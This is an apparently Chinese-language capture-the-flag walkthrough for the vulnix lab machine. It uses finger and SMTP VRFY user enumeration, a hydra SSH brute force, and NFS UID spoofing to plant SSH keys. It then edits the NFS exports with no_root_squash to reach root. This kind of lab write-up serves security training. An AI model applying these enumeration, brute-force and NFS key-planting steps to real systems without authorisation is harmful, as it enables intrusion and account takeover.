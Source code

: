 # vulnix



![image-20200612031806183](assets/vulnix.assets/image-20200612031806183.png)

看到nfs了先测试一下

![image-20200612095103606](assets/vulnix.assets/image-20200612095103606.png)

```bash
sudo mount -t nfs 192.168.1.115:/home/vulnix nfs
```

![image-20200612095156524](assets/vulnix.assets/image-20200612095156524.png)

![image-20200612095242901](assets/vulnix.assets/image-20200612095242901.png)

权限不足，需要为装成一个本地账户的UID才能读取



无权限，继续扫描

![image-20200612032402134](assets/vulnix.assets/image-20200612032402134.png)

finger：详细介绍可以参见我的`HTB_Sunday`的walkthrough

使用以下脚本

http://pentestmonkey.net/tools/user-enumeration/finger-user-enum

```bash
./finger-user-enum.pl -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t 192.168.43.122
```

大小字典都打了一下，没什么合适的线索。只确认了两个用户root和user

![image-20200612090201068](assets/vulnix.assets/image-20200612090201068.png)

![image-20200612085323977](assets/vulnix.assets/image-20200612085323977.png)

```bash
ehlo 192.168.1.115
```

Postfix邮件打招呼，发现支持VRFY命令。可以枚举用户名

```bash
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.1.115
```

![image-20200612085946908](assets/vulnix.assets/image-20200612085946908.png)

再次认证了两个用户，root和user

hydra暴力测试ssh

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.1.115
```

![image-20200612093149557](assets/vulnix.assets/image-20200612093149557.png)

```bash
user:letmein
```

![image-20200612095616871](assets/vulnix.assets/image-20200612095616871.png)

常规枚举发现sudo拥有S位。但是。user并在sudoer内

![image-20200612095706526](assets/vulnix.assets/image-20200612095706526.png)

利用usr账户查看可能利于的帐户

![image-20200612095810671](assets/vulnix.assets/image-20200612095810671.png)

推测nfs的权限也应该是这个帐户

参考`/etc/passwd`确认UID

![image-20200612095902404](assets/vulnix.assets/image-20200612095902404.png)

kali本地增加新用户

```bash
sudo useradd -u 2008 vulnix
```

重新进入挂载的nfs，但是并没有有用信息，

因为目录是远程的/home/vulnix，所以，可以利用ssh的特性在目录下生成ssh，从而让我们可以以vulnix的身份通过ssh进入目标。

```bash
mkdir .ssh
cd .ssh
ssh-keygen
```

![image-20200612111510521](assets/vulnix.assets/image-20200612111510521.png)	



```bash
mv id_rsa.pub authorized_keys
cat id_rsa
```

cat显示。将内容复制下来，在kali本机生成同样文件，记得给600

![image-20200612112030620](assets/vulnix.assets/image-20200612112030620.png)

使用私钥文件登录服务器

```bash
ssh -i id_rsa vulnix@192.168.1.115
```

![image-20200612112326383](assets/vulnix.assets/image-20200612112326383.png)

![image-20200612112822781](assets/vulnix.assets/image-20200612112822781.png)

执行这条命令可以编辑exports文件，这个文件是设置nfs挂载的，再最下面添加一行，吧/root也加入挂载

```bash
/root           *(no_root_squash,insecure,rw)
```

![image-20200612114900842](assets/vulnix.assets/image-20200612114900842.png)

之后需要重启目标。。

之后只是重复之前的步骤，挂载root，目录，为root生成密钥，ssh登录。